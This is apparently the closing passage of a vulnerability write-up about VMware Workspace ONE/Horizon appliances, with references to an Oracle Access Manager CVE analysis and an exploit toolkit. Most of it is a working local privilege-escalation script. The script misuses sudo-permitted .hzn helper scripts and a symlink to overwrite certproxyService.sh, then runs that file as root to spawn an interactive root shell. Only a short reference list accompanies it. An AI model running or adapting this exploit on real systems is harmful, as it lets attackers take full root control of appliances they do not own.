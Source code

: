 ```
sudo /usr/local/horizon/scripts/publishCaCert.hzn /opt/vmware/certproxy/bin/certproxyService.sh tmp
mkdir tmp
ln -s /opt/vmware/certproxy/bin/certproxyService.sh /tmp/debugConfig.txt
sudo /usr/local/horizon/scripts/gatherConfig.hzn tmp
rm -rf tmp
chmod 755 /opt/vmware/certproxy/bin/certproxyService.sh
echo "mv /etc/ssl/certs/tmp /opt/vmware/certproxy/bin/certproxyService.sh" > /opt/vmware/certproxy/bin/certproxyService.sh
echo "chown root:root /opt/vmware/certproxy/bin/certproxyService.sh" >> /opt/vmware/certproxy/bin/certproxyService.sh
echo "chmod 640 /opt/vmware/certproxy/bin/certproxyService.sh" >> /opt/vmware/certproxy/bin/certproxyService.sh
echo "rm /tmp/a; rm /tmp/b; cd /root; python -c 'import pty; pty.spawn(\\\"/bin/bash\\\")'" >> /opt/vmware/certproxy/bin/certproxyService.sh
sudo /opt/vmware/certproxy/bin/certproxyService.sh
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRcIo3zjtulicBH0zX1gHBH4whpwSVP7jK5mD6tM6A16s5Gxgibs3mPhDZwjoqDqnL7koFNbYl1c4Kg/640?wx_fmt=png "")  
  
#  Reference  
  
1.https://developer.aliyun.com/article/652873#slide-3  
  
2.https://www.anquanke.com/post/id/275266  
  
3.https://testbnull.medium.com/oracle-access-manager-pre-auth-rce-cve-2021-35587-analysis-1302a4542316  
  
4.https://github.com/sourceincite/hekate  
  
  
